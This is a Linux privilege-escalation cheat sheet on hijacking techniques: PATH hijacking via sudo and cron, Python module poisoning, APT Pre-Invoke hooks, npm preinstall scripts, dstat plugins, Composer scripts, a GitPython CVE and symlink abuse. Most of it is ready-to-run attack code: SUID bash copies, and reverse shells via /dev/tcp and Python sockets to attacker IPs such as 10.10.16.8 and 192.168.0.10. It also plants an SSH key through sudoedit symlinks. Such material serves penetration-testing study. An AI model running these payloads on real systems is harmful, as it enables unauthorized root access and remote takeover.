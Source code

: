 ```yaml
---
icon: dagger
---
```


# Hijacks

{% hint style="info" %}
<mark style="color:purple;">When a script is executed with elevated privileges (e.g., via</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">or in a</mark> <mark style="color:orange;">**`cron`**</mark> <mark style="color:purple;">job) and calls other binaries or scripts with</mark> <mark style="color:orange;">**`relative paths`**</mark><mark style="color:purple;">, it may be possible to hijack the execution flow by manipulating the</mark> <mark style="color:orange;">**`PATH`**</mark> <mark style="color:purple;">variable or exploiting relative paths.</mark>
{% endhint %}

{% code title="Check $PATH" %}
```bash
echo $PATH
```
{% endcode %}

<details>

<summary><mark style="color:purple;">Path</mark> <mark style="color:purple;"><strong>Hijacking</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>sudo</code></strong></mark></summary>

{% hint style="info" %}


<mark style="color:orange;">**`Bash`**</mark>

{% code title="Copy the shell" overflow="wrap" %}
```sh
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/tokyo\nchown root:root /tmp/tokyo\nchmod 6777 /tmp/tokyo' | tee HIJACKED.sh
```
{% endcode %}

{% code title="Execute the shell" overflow="wrap" %}
```sh
/tmp/tokyo -p
```
{% endcode %}
{% endhint %}

{% hint style="info" %}


#### <mark style="color:orange;">**`PHP`**</mark>

{% code title="Copy the shell" overflow="wrap" %}
```php
<?php
define('PATH', '/PATH/HIJACK');
system('cp /bin/bash /tmp/tokyo; chown root:root /tmp/tokyo; chmod 6777 /tmp/tokyo;');
?>
```
{% endcode %}

{% code title="Execute the shell" %}
```sh
/tmp/tokyo -p
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong>Path Hijacking</strong></mark><strong> </strong><mark style="color:orange;"><strong><code>cron</code></strong></mark></summary>

* <mark style="color:purple;">When</mark> <mark style="color:orange;">**`PATH`**</mark> <mark style="color:purple;">includes</mark> <mark style="color:orange;">**`/usr/local/bin`**</mark> <mark style="color:purple;">before</mark> <mark style="color:orange;">**`/usr/bin`**</mark> <mark style="color:purple;">in the</mark> <mark style="color:orange;">**`cron`**</mark> <mark style="color:purple;">job's environment.</mark>&#x20;
* <mark style="color:purple;">When a binary or script is executed</mark> <mark style="color:red;">**`without an absolute path`**</mark><mark style="color:purple;">**.**</mark>

{% code title="Copy the shell" overflow="wrap" %}
```sh
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/tokyo\nchmod u+s /tmp/tokyo' > /usr/local/bin/TARGET; chmod +x /usr/local/bin/TARGET
```
{% endcode %}

* <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">drops</mark> <mark style="color:orange;">**`SUID`**</mark> <mark style="color:purple;">privileges by default, so make sure to run it with</mark> <mark style="color:orange;">**`-p`**</mark> <mark style="color:purple;">to keep root:</mark>

```sh
tokyo -p
```

{% hint style="info" %}


<mark style="color:orange;">**`PHP`**</mark>

{% code title="Reverse shell" %}
```php
$sock=fsockopen("10.10.16.8", 4445);
exec("/bin/sh -i <&3 >&3 2>&3");
```
{% endcode %}

{% code title="Copy the shell" overflow="wrap" %}
```php
<?php
$bashPath = '/bin/bash';
$tokyoPath = '/tmp/tokyo'; 

exec("cp $bashPath $tokyoPath");
exec("chmod u+s $tokyoPath");
exec("chmod +x $tokyoPath");
?>
```
{% endcode %}
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;">Path Hijacking</mark>  <mark style="color:orange;"><strong><code>supervisord.pid</code></strong></mark></summary>

* <mark style="color:purple;">Process management tool for keeping services running.</mark>
* <mark style="color:purple;">Each managed process must have a</mark> <mark style="color:orange;">**`[program:<name>]`**</mark> <mark style="color:purple;">line followed by another line</mark> <mark style="color:orange;">**`command=`**</mark> <mark style="color:purple;">where you should place the payload.</mark>

{% code title="POC" overflow="wrap" %}
```bash
echo -e "[program:memcached]\ncommand = bash -c 'bash -i  >& /dev/tcp/LHOST/PORT 0>&1'" > memcached.ini
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;">Path Hijacking</mark> <mark style="color:green;"><code>Python</code></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Python prioritize modules within the vulnerable script's directory, so you could place the malicious module there`**</mark>
{% endhint %}

{% code title="python PATH order" overflow="wrap" %}
```bash
python -c 'import sys; print "\n".join(sys.path)'
```
{% endcode %}

{% code title="Look for writable modules" overflow="wrap" %}
```bash
find /usr/lib/python* -type f -writable -ls 2>&1 | grep python
```
{% endcode %}

{% code title="Look in virtual environments" overflow="wrap" %}
```bash
find /path/to/venv -type f -writable -ls 2>&1 | grep python
```
{% endcode %}

{% code title="Look in the entire system" overflow="wrap" %}
```bash
find -type f -writable -ls 2>&1 | grep python
```
{% endcode %}

{% code title="Malicious Module Poc" overflow="wrap" %}
```python
import pty

pty.spawn("/bin/bash")
```
{% endcode %}

{% code title="Reverse Shell" overflow="wrap" %}
```bash
echo 'import pty
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.6",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()' >> os.py
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;">Path Hijacking</mark> <mark style="color:orange;"><strong><code>symlink</code></strong></mark></summary>

{% code title="" %}
```bash
ln -s /root/root.txt t.trace.db
```
{% endcode %}

</details>

{% hint style="info" %}
```sh
```

### <mark style="color:purple;">Path Hijacking via</mark> <mark style="color:orange;">`doas`</mark>&#x20;

* <mark style="color:orange;">**`doas`**</mark> <mark style="color:purple;">is a lightweight, simple command-line utility for running commands with elevated privileges on Unix-like systems, similar to</mark> <mark style="color:orange;">**`sudo`**</mark><mark style="color:purple;">**.**</mark>
* <mark style="color:orange;">**`doas.conf`**</mark> <mark style="color:purple;">have important information for privilege escalation:</mark>

```sh
find / -name "doas.conf" 2>/dev/null
```

***

### <mark style="color:purple;">**Path Hijacking via**</mark>**&#x20;**<mark style="color:orange;">**`sudo -i`**</mark>

* <mark style="color:purple;">If there is a</mark> <mark style="color:purple;"></mark><mark style="color:purple;">**writable directory in the**</mark>**&#x20;**<mark style="color:orange;">**`$PATH`**</mark> <mark style="color:purple;">(e.g.,</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">or</mark> <mark style="color:orange;">**`/home/user/`**</mark><mark style="color:purple;">), and an attacker can control the contents of this directory.</mark>
* <mark style="color:purple;">First, create a malicious</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">script in</mark> <mark style="color:orange;">**`/tmp/bash`**</mark><mark style="color:purple;">:</mark>

```sh
cp /bin/bash .
```

* <mark style="color:purple;">Then on the vulnerable</mark> <mark style="color:orange;">**`$PATH`**</mark> <mark style="color:purple;">**just run:**</mark>

```sh
sudo -i
```

***

### <mark style="color:orange;">`sudo`</mark> <mark style="color:purple;">via</mark> <mark style="color:orange;">`PHP`</mark>

* <mark style="color:purple;">If is possible to user</mark> <mark style="color:orange;">**`PHP`**</mark> <mark style="color:purple;">with</mark> <mark style="color:orange;">**`sudo`**</mark><mark style="color:purple;">:</mark>

```sh
sudo /usr/bin/php -r 'system("/bin/sh");'
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Hijack</mark> <mark style="color:orange;">`APT`</mark>

#### <mark style="color:orange;">`Pre-Invoke`</mark>

* <mark style="color:purple;">Create a malicious config file to be invoked before</mark> <mark style="color:orange;">**`APT`**</mark> <mark style="color:purple;">runs:</mark>

{% code overflow="wrap" %}
```sh
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/192.168.0.10/4433 0>&1'\''"}' > file_name
```
{% endcode %}

* <mark style="color:orange;">**`APT`**</mark> <mark style="color:purple;">check this directory for</mark> <mark style="color:orange;">**`pre-invoke`**</mark> <mark style="color:purple;">scripts:</mark>

```
/etc/apt/apt.conf.d
```

* <mark style="color:purple;">Just wait for listener.</mark>
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`npm`</mark> <mark style="color:purple;">via</mark> <mark style="color:orange;">`sudo`</mark>

* <mark style="color:purple;">A</mark> <mark style="color:orange;">**`NodeJS`**</mark> <mark style="color:purple;">package is defined in a file</mark> <mark style="color:orange;">**`package.json`**</mark><mark style="color:purple;">, is possible to create a malicious package and run it with the</mark> <mark style="color:orange;">**`--unsafe`**</mark> <mark style="color:purple;">option to get code execution:</mark>

```json
{
  "name": "root_please",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}
```

* <mark style="color:purple;">The malicious</mark> <mark style="color:orange;">**`package.json`**</mark> <mark style="color:purple;">needs to be contain within the fake package directory; once is all setup just run it with</mark> <mark style="color:orange;">**`sudo`**</mark><mark style="color:purple;">:</mark>

```sh
sudo npm i package/ --unsafe
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`dstat`</mark> <mark style="color:purple;">Plugin poisoning</mark>

<mark style="color:purple;">Allows to run arbitrary</mark> [<mark style="color:green;">**`python`**</mark>](https://gtfobins.github.io/gtfobins/python/) <mark style="color:purple;">scripts loaded as “external plugins” if they are located in one of the directories stated in the</mark> <mark style="color:orange;">**`man`**</mark> <mark style="color:purple;">page:</mark>

1. <mark style="color:red;">**`~/.dstat/`**</mark>
2. <mark style="color:red;">**`(path of binary)/plugins/`**</mark>
3. <mark style="color:red;">**`/usr/share/dstat/`**</mark>
4. <mark style="color:red;">**`/usr/local/share/dstat`**</mark>

<mark style="color:purple;">Normally to escalate privilege you want to choose the ones within the</mark> <mark style="color:orange;">**`root`**</mark> <mark style="color:purple;">path, check for</mark> <mark style="color:orange;">**`writable`**</mark> <mark style="color:purple;">permissions:</mark>

{% code lineNumbers="true" %}
```sh
ls -ld /usr/local/share/dstat/
ls -ld /usr/share/dstat/
```
{% endcode %}

<mark style="color:purple;">Create a malicious plugin:</mark>

{% code overflow="wrap" lineNumbers="true" %}
```sh
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_tokyo.py
echo 'import os; os.execv("/bin/sh", ["sh"])' > ~/.dstat/dstat_tokyo.py
```
{% endcode %}

<mark style="color:purple;">Execute it with</mark> <mark style="color:orange;">**`--PluginName`**</mark><mark style="color:purple;">:</mark>

{% code lineNumbers="true" %}
```sh
doas /usr/bin/dstat --tokyo
sudo dstat --tokyo
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`Composer`</mark> <mark style="color:purple;">Hijacking</mark>

* <mark style="color:purple;">First create the temporal folder where you will invoke the shell from and save in an environmental variable:</mark>&#x20;

```sh
TF=$(mktemp -d)
```

* <mark style="color:purple;">Once is done, create the malicious script to feed</mark> <mark style="color:orange;">**`composer`**</mark><mark style="color:purple;">:</mark>&#x20;

```sh
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
```

* <mark style="color:purple;">Finally, just execute the script with it's in-build option:</mark>

```sh
sudo composer --working-dir=$TF run-script x
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`GitPython`</mark>

<mark style="color:red;">**`CVE-2022-24439`**</mark>

* <mark style="color:purple;">Inadequate validation of user input when handling remote URLs passed to the clone command:</mark>

{% code title="Create the reverse shell" overflow="wrap" %}
```sh
echo "bash -i >& /dev/tcp/10.10.16.10/4444 0>&1" > /tmp/shell.sh
```
{% endcode %}

{% code title="Payload" overflow="wrap" %}
```sh
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`Symbolic Links`</mark> <mark style="color:purple;">via</mark> <mark style="color:orange;">`sudo`</mark>

#### <mark style="color:red;">`Sudoedit Double Wildcard Exploit`</mark>

* <mark style="color:purple;">Using this</mark> [<mark style="color:purple;">exploit</mark>](https://www.exploit-db.com/exploits/37710) <mark style="color:purple;">is possible to create a symbolic link pointing to the</mark> <mark style="color:orange;">**`authorized_keys`**</mark> <mark style="color:purple;">file.</mark>&#x20;
* <mark style="color:purple;">First create a new directory in the vulnerable path:</mark>

```sh
 mkdir tokyo
```

* <mark style="color:purple;">Now, from the new directory pop the symbolic link:</mark>&#x20;

```sh
 ln -s /home/alekos/.ssh/authorized_keys layout.html
```

* <mark style="color:purple;">Finally use</mark> <mark style="color:orange;">**`sudoedit`**</mark> <mark style="color:purple;">to write your public key:</mark>&#x20;

```sh
sudoedit -u alekos /var/www/testing/tokyo/layout.html
```

***

#### <mark style="color:red;">`tar wildcards`</mark>

* <mark style="color:purple;">Move the directory being use by the script:</mark>

```sh
mv development{,.orig}
```

* <mark style="color:purple;">Replace it with a symbolic link pointing to your target directory:</mark>

```sh
ln -s /root development
```

* <mark style="color:purple;">Decompress the content:</mark>

```sh
tar xvf file.tar.gz -C /tmp/
```
{% endhint %}

